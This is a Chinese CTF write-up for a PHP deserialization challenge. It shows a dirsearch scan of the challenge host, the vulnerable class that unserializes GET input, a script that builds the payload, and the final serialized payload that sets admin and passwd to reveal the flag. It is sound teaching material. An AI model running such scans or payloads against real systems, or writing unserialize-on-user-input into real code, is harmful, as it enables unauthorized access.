

查看源码

提示查看robots.txt

或者直接扫目录

```
dirsearch -u http://node4.anna.nssctf.cn:28107/
```


访问robots.txt



存在cl45s.php

访问

```
 <?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?> 
```


分析源码

PHP反序列化

当创建对象时自动调用_construct()，给admin和passwd赋值

当对象销毁时自动调用_destruct()，判断admin和passwd的值

如果满足条件则包含flag.php

即使admin为admin

passwd为ctf


生成payload

```
<?php

class wllm
{

    public $admin;
    public $passwd;
}
$a=new wllm();
$a->admin="admin";
$a->passwd="ctf";
echo serialize($a)
?>
```


```
?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

